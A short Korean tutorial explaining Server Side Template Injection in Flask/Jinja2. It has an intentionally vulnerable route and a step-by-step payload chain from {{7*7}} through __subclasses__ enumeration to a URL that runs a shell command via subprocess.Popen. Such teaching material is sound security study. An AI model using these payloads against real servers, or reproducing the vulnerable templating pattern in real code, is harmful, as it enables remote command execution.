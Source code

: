 # 배경
Server Side Template Injection의 약자
동적 웹페이지를 구현할 때, 템플릿을 사용하면 편리한데,
템플릿이 서버측에서 해석이 되기 때뭉에 취약점이 발생한다.
eval()랑 비슷할 정도로 취약함

```python
@app.route('/')
def home():
	title="제목"
	content = request.args.get('content')
	thisistemp='''
	<!DOCTYPE html>
	<html>
		<head>
			<meta charset="utf-8">
			<title>SSTI</title>
		</head>
		<body>
			<h1>{{title}}</h1>
			<h2>%s</h2>
		</body>
	</html>'''%content				#vuln!
	return render_template_string(thisistemp, title=title)
```

위 flask 코드는 입력값을 그대로 템플릿에 넣어서 문제가 발생한다.
title변수가 템플릿에서 사용할 수 있는 것과 마찬가지로
사용자에게 입력받은 데이터에 {{}}로 감싸고 그 안에 악의적인 코드가 들어갈 수 있다.

예를 들어 content에 `{{7*7}}` 을 넣으면 `{{7*7}}` 가 아닌 49가 출력된다.

Flask 템플릿 엔진은 Jinja2라는 템플릿 엔진을 사용
Jinja2는 기본적으로 HTML 템플릿을 렌더링하는 데 사용되지만, 
중괄호 두 개로 둘러싸인 표현식은 파이썬 코드로 해석되어 실행



# exploit 예시

다음은 config 내부에 있는 값들을 딕셔너리 형태로 출력시켜준다

	{{config.items()}}

os 라이브러리 내부에는 popen,os등의 실행 함수가 들어있기 때문에 사용할 수 있으면 좋다.
popen은 새로운 파이프라인을 만들어서 그 안에서 커널 명령어를 사용할 수 있다.

os의 config딕셔너리가 추가시켜준다.

	{{config.from_object('os')}}*

사용할 수 있는 클래스를 검색할 수 있게 만든다.

	{{''.__class__.__mro__}}

서브클래스 조회

	{{''.__class__.__mro__[1].__subclasses__()}}

매우 많은 클래스들과 중간에

	concurrent.futures._base._AcquireFutures'>, <class 'concurrent.futures._base.Future'>, <class 'concurrent.futures._base.Executor'>, <class 'subprocess.STARTUPINFO'>, <class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>, <class 'asyncio.events.Handle'>, <class 'asyncio.events.AbstractServer'>, <class 'asyncio.events.AbstractEventLoop'>, <class 'asyncio.events.AbstractEventLoopPolicy'>, <class

popen클래스를 찾을 수 있는데, 슬라이싱을 통해서 popen의 위치를 찾을 수 있다.

	http://127.0.0.1:8080/?content={{%27%27.__class__.__mro__[1].__subclasses__()[202](%27ls%27,shell=True,stdout=-1).communicate()}}

최종 코드다.